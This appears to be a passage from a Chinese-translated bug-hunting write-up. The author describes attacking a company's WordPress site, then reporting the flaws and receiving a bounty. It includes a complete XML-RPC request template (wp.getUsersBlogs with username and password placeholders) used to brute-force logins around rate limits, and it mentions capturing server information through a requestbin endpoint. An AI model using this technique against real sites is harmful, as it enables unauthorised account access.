 **在 [**requestbin**](https://requestbin.com/) 输出面板获取服务器内部信息。**

> ***注意:要做到这一点，你的回答需要不同于* `*<value><int>0</int></value>*`**

# **暴力攻击**

**使用 **XML-RPC** 绕过对 WordPress 的强力攻击中的请求限制或阻塞**

# **请求:**

```
POST /xmlrpc.php HTTP/1.1
Host: [campo.com](http://example.com)
Content-Length: 235<?xml version="2.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{username\}\}</value></param> 
<param><value>\{\{password\}\}</value></param> 
</params> 
</methodCall>
```

****响应:****

**从我收集的信息中，我发现了两个**用户名。但是这还不足以侵入他们的管理面板，至少不用这种方法。****

# **黑色帽子变成白色**

**不知何故，我为那些可能泄露个人信息的人感到难过。最后，我也是其中之一。我停下来，发了一封电子邮件，告诉公司我所有的发现。但正如我所料，他们甚至不在乎回复。在几周的等待和发现更多东西后，我决定给公司打电话，直接和他们谈。电话里的人不知道我在说什么。她问我的信息，并告诉我，她会设法让我与维护他们网站的人联系。**

**那个电话打了四天后，他们的安全主管才打回来。她开始询问我的发现，我是谁，以及我是如何发现这些漏洞的。打了几分钟电话后，她明白事情很严重。这需要尽快解决。更糟糕的是，就在几个月前，他们最重要的网站也因为同样的问题被关闭了。**

# **结论**

**在结束我们的电话交谈之前，她感谢我所做的一切，感谢我打电话给她，告知他们的员工这些漏洞。她再次感谢我，并告诉我，我可能会接到更多的电话，询问更多关于这些虫子的信息。长话短说，在接到那个电话的两个星期后，我收到了最初的 200 英镑，外加我所发现的奖金。这一课只是告诉我们，即使当我们想伤害别人时，我们也可以把事情变得更好，做一些好事。**